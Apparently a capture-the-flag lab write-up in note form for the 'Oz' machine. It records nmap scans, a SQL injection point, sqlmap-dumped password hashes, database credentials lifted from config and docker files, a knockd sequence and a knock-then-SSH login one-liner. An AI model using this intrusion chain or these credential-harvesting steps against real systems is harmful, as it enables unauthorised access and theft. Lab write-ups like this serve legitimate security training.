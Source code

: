 IP = 10.10.10.96

Nmap (nmap -p- -vvv -Pn 10.10.10.96)
```bash
PORT     STATE SERVICE    REASON
80/tcp   open  http       syn-ack
8080/tcp open  http-proxy syn-ack
```

Nmap2 (nmap -sC -sV 10.10.10.96 )
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: OZ webapi
8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
| http-title: GBR Support - Login
|_Requested resource was http://10.10.10.96:8080/login
|_http-trane-info: Problem with XML parsing of /evox/about
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Werkzeug/0.14.1 Python/2.7.14
```

(PORT 8080) interesting http response headers
```
Server: Werkzeug/0.14.1 Python/2.7.14
```

(PORT 80) SQL INJECTION
```
http://10.10.10.96/users/<SQL INJECT>
```

sqlmap output
```
$pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78 | dorthi      |
| 2  | $pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk | tin.man     |
| 3  | $pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY | wizard.oz   |
| 4  | $pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY | coward.lyon |
| 5  | $pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg | toto        |
| 6  | $pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ | admin
```

creds
```
wizardofoz22
```

host 10.100.10.4 sql
```
MySQL 5.5.59-MariaDB-1~wheezy
Version: 5.5.59-MariaDB-1~wheezy
```

from /app/ticketer/database.py
```
mysql+pymysql://dorthi:N0Pl4c3L1keH0me@10.100.10.4/ozdb
```

from /containers/database/
```bash
docker run -d -v /connect/mysql:/var/lib/mysql --name ozdb \
--net prodnet --ip 10.100.10.4 \
-e MYSQL_ROOT_PASSWORD=SuP3rS3cr3tP@ss \
-e MYSQL_USER=dorthi \
-e MYSQL_PASSWORD=N0Pl4c3L1keH0me \
-e MYSQL_DATABASE=ozdb \
-v /connect/sshkeys:/home/dorthi/.ssh/:ro \
-v /dev/null:/root/.bash_history:ro \
-v /dev/null:/root/.ash_history:ro \
-v /dev/null:/root/.sh_history:ro \
--restart=always \
mariadb:5.5
```

knockd.conf
```
[options]
        logfile = /var/log/knockd.log

[opencloseSSH]

        sequence        = 40809:udp,50212:udp,46969:udp
        seq_timeout     = 15
        start_command   = ufw allow from %IP% to any port 22
        cmd_timeout     = 10
        stop_command    = ufw delete allow from %IP% to any port 22
        tcpflags        = syn

```

knock -u 10.10.10.96 40809 50212 46969 && nmap -p 22 -Pn -T4 10.10.10.96 && ssh -i id_rsa dorthi@10.10.10.96
N0Pl4c3L1keH0me